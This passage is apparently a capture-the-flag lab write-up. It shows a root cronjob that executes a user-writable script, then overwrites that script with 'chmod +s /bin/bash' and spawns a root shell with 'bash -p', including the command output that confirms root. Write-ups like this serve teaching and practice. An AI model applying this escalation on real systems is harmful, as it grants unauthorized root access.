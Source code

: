 Turns out it just a *rabbit hole*.

**Cronjob:**
```
[...]
# m h dom mon dow user	command
[...]
*  *	* * *	king	cd /home/king/ && bash run.sh
*  *	* * *	root	cd /home/king/ && bash root.sh
*  *	* * *	root	cd /root/company && bash run.sh
```

In the `/etc/crontab`, we can see that there are 3 cronjobs are running.

The `root	cd /home/king/ && bash root.sh` looks exploitable, since we're user `king`, thus has right to modify the `root.sh` Bash script!

**To do so, I'll:**

- Backup the orignal `root.sh`:

```
king@ubuntu:~$ mv root.sh root.sh.bak
```

- Create a malicious `root.sh` to escalate our privilege:

```
king@ubuntu:~$ cat << EOF > root.sh
> chmod +s /bin/bash
> EOF
king@ubuntu:~$ chmod +x root.sh
```

This will add a **SUID set bit** to `/bin/bash`, which means we can leverage this to spawn a root shell.

- Wait for the cronjob runs, and then spawn a root shell:

```
king@ubuntu:~$ ls -lah /bin/bash
-rwsr-sr-x 1 root root 1014K Jul 12  2019 /bin/bash

king@ubuntu:~$ /bin/bash -p
bash-4.3# whoami;hostname;id;ip a
root
ubuntu
uid=1000(king) gid=1000(king) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare),1000(king)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:28:66:4e:ff:e7 brd ff:ff:ff:ff:ff:ff
    inet 10.10.125.206/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::28:66ff:fe4e:ffe7/64 scope link 
       valid_lft forever preferred_lft forever
```
